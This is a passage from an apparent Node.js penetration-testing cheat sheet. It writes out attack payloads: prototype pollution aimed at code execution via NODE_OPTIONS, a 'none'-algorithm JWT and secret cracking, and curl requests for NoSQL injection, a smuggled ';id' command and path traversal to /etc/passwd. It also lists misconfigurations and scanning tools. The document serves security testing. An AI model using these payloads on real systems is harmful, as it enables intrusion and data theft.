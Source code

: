 ### Prototype Pollution to RCE
```javascript
// Pollute Object prototype
{
    "__proto__": {
        "shell": "/bin/bash",
        "NODE_OPTIONS": "--require /tmp/evil.js"
    }
}

// Then trigger child_process spawn
```

### JWT Attacks
```bash
# None algorithm
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4ifQ.

# Crack weak secret
john jwt.txt --wordlist=passwords.txt

# Key confusion (RS256 to HS256)
```

## Common Misconfigurations

1. **No Helmet.js** - Missing security headers
2. **CORS: Origin: '*'** - Allows any origin
3. **bodyParser with no limit** - DoS via large payloads
4. **No rate limiting** - Brute force attacks
5. **Synchronous operations** - Blocks event loop
6. **No input validation** - Various injections
7. **console.log in production** - Information disclosure

## Testing Tools

### Automated Scanning
```bash
# Node.js security scanner
npm audit
snyk test

# Dependency check
npm-check-updates
retire.js

# SAST scanning
semgrep --config=auto .
```

### Manual Testing
```bash
# NoSQL injection
curl -X POST http://localhost:3003/login \
  -H "Content-Type: application/json" \
  -d '{"username":{"$ne":null},"password":{"$ne":null}}'

# Command injection
curl "http://localhost:3003/ping?host=;id"

# Path traversal
curl "http://localhost:3003/download?file=../../../etc/passwd"
```